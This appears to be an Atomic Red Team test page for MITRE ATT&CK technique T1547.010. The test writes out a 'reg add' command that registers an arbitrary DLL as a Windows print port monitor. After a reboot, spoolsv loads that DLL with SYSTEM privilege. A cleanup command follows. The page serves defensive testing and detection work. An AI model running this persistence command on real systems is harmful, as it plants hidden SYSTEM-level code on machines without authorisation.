```yaml
---
tags: [T1547_010, atomic_test]
filename: "[[T1547.010 - Boot or Logon Autostart Execution- Port Monitors]]"
---
```

# T1547.010 - Boot or Logon Autostart Execution: Port Monitors

## Atomic Test #1 - Add Port Monitor persistence in Registry
Add key-value pair to a Windows Port Monitor registry. On the subsequent reboot DLL will be execute under spoolsv with NT AUTHORITY/SYSTEM privilege.

**Supported Platforms:** Windows


**auto_generated_guid:** d34ef297-f178-4462-871e-9ce618d44e50





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| monitor_dll | Addition to port monitor registry key. Normally refers to a DLL name in C:&#92;Windows&#92;System32 but an arbitrary DLL can be specified with the absolute path. | path | $PathToAtomicsFolder&#92;T1547.010&#92;bin&#92;PortMonitor.dll|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "hklm\system\currentcontrolset\control\print\monitors\AtomicRedTeam" /v "Driver" /d "#{monitor_dll}" /t REG_SZ /f
```

#### Cleanup Commands:
```cmd
reg delete "hklm\system\currentcontrolset\control\print\monitors\AtomicRedTeam" /f >nul 2>&1
```





<br/>
